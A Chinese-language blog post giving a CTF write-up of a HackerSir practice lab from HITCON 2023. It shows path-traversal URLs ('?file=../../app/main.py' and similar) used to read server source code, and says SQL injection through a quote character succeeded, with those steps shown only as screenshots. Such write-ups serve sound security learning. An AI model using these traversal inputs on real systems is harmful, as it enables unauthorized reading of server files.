 ```yaml
---
layout: post
title: "[CTF] HackerSir 靶機 in HITCON 2023"
date: 2023-08-26 +0800
categories: CTF
hidden: false
---
```



## 前言
這個Lab是在HITCON攤位上看到的，當時沒時間解，回來解解看，順便寫個writeup。

## Writeup

### 任意讀取
- 這是商品的介面 (抱枕好可愛XD)
    ![](/images/2023/08/ewEGoFP.png){:h="80%" w="80%"}

- 這是圖片的連結，可以任意讀取在?file=的地方
    ```url
    https://lab.hackersir.org/uploads?file=b87eedddb23f4993bbc8f25a0def05d2
    ```
- 在搜尋的地方輸入'，就能在報錯頁面看到source code位置
    ![](/images/2023/08/a5pEizt.png){:h="80%" w="80%"}


- 有這些source code

    ```url
    https://lab.hackersir.org/uploads?file=../../app/main.py
    https://lab.hackersir.org/uploads?file=../../app/api/cart.py
    https://lab.hackersir.org/uploads?file=../../app/api/item.py
    ```

- 有一個像flag
    ![](/images/2023/08/M8y0Ukp.png){:h="80%" w="80%"}

### SQLI

- 查看 item.py，可以sqli
    !![](/images/2023/08/4E2jotG.png){:h="80%" w="80%"}

- 嘗試sqli
    ![](/images/2023/08/mdYrOtg.png){:h="80%" w="80%"}

- 成功
    ![](/images/2023/08/lV3RO3w.png){:h="80%" w="80%"}

## End
我覺得是一個有趣的小靶機，但是不知道還有沒有其他可以攻擊的地方。
